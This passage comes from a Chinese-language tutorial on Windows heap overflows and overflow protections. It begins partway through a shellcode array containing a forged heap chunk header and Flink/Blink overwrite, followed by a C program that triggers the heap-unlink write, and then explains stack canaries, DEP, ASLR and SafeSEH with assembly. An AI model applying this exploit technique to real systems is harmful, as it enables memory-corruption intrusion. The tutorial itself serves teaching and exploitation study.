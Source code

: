 ```
"\x50\x50\x53\xFF\x57\xFC\x53\xFF\x57\xF8"
"\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90"
"\x16\x01\x1A\x00\x00\x10\x00\x00" // 块首的8字节
"\x88\x06\x52\x00\x20\xf0\xfd\x7f"; // Flink+Blink,Blink为0x7ffdf020,Flink为00520688


int main()
{
    HLOCAL h1=0,h2=0;
    HANDLE hp=HeapCreate(0,0x1000,0x10000);
    //print_shellcode();return 0;
    h1 = HeapAlloc(hp,HEAP_ZERO_MEMORY,200);
    memcpy(h1,shellcode,0x200);
    //_asm int 3;
    h2=HeapAlloc(hp,HEAP_ZERO_MEMORY,8);
    return 0;
}

```

Flink的值需要在调试时确定,指向shellcode起始位置

0x04 第二部分：溢出保护和绕过
=====

我们常说的溢出,就是要覆盖缓冲区,现代的操作系统针和编译器对此种攻击做出了很多的防御措施.

第一层是编译器层面,例如gcc的stack protector,vc的gs,第二层是操作系统层面的DEP,aslr,safeseh,sehop等.

所谓知己知彼百战不殆.下文详情

0x05 编译器层面
=====

gcc在编译时会自动插入一个随机的cookie,也叫做金丝雀值(历史上用金丝雀来检查煤矿中是否有有毒气体),保存在ebp-8字节的位置,函数每次调用完成将返回地址交给eip的之前会检查cookie是否被改写,假如被改写就触发异常,程序停止执行.

看代码:

```
push ebp
mov esp,ebp
push ebx
sub esp,xxx

;插入cookie
mov eax,gs:[20]
mov [ebp-8],eax
xorl eax,eax
;插入完毕

;execute some code....
;恢复ebx和ebp和ret之前的动作:
mov eax,[ebp-8]
xor eax,gs:[20]
je true:

call stack_check_fail
;假如cookie被覆盖,xor后为1,没进入if,调用stack_check_fail触发异常

true:
add esp,20
pop ebx
pop ebp
ret

```